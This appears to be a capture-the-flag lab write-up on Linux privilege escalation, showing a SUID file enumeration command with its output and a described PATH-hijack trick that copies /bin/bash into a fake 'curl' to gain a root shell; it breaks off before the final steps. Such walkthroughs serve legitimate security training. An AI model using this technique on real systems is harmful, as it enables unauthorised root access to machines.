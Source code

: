 -----


# Time for some privilege escalation 

----

## SUID 
(Set owner User ID up on execution) is a special type of file permissions given to a file. Normally in Linux/Unix when a program runs, it inherits access permissions from the logged in user.

[SUID](http://https://www.linux.com/training-tutorials/what-suid-and-how-set-suid-linuxunix/ "SUID")

### Use 
 >**ind / -type f -perm -u=s 2>/dev/null**
to search for files with a misconfigured SUID let us to get root privileges

```js
kenobi@kenobi:~$ find / -type f -perm -u=s 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
kenobi@kenobi:~$
```

## The /usr/bin/menu file looks intersest. Let's run this binary. we get this output with 3 options to select:

```js
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```
## In 1. status check like curl.
we make can file and name it as curl and copy /bin/bash to it then make it  readable, writeable and executable then add the path of curl file to bash shell of the system path
